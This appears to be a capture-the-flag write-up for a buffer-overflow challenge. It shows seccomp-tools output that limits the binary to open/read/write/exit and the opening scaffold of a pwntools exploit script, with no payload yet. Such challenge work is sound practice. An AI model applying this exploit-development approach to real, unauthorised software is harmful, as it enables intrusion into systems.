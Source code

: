 The program is simple just get our input using `read` and we have `Buffer Overflow` here, and we see that it have `install_filter()` function here so maybe it has `seccomp rule` (we need to check it)

```sh
└ ϟ seccomp-tools dump ./chal                                                                                                                                                                                                  took 82.295s
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
```

### Exploit Development

And yep, the `seccomp` just allow `orw` syscall, and because this is a static binary so we have all gadgets we need here.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./chal_patched', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        p = remote("localhost", 9000)
        sleep(1)
        pid = 58845
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''


b *main+145
c
# c
# c
'''.format(**locals())

p = init()

```